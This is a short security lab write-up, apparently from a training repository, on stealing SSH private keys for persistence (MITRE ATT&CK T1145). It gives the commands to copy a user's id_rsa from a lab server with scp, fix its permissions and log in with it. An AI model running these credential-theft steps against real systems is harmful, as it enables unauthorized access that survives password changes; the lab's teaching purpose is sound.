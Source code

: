 * [Theft of `SSH` private keys](#theft-of-ssh-private-keys)

# Theft of `SSH` private keys
Stealing SSH private key is a widely used method to maintain access even after the user changes his password. In this lab, the learning objective is to highlight the same fact. 

This is also covered by the MITRE ATT&CK framework: https://attack.mitre.org/techniques/T1145/

```
# Copy the private keys of the user from the server, if they are kept as backup
$ scp student@192.224.16.3:~/.ssh/id_rsa .

# Once you have access to private keys of the user, you can login without password
# Change the permissions of the private key id_rsa to 400.
# It is required that your private key files are NOT accessible by others.

$ chmod 400 id_rsa
$ ssh -i id_rsa student@192.224.16.3
```


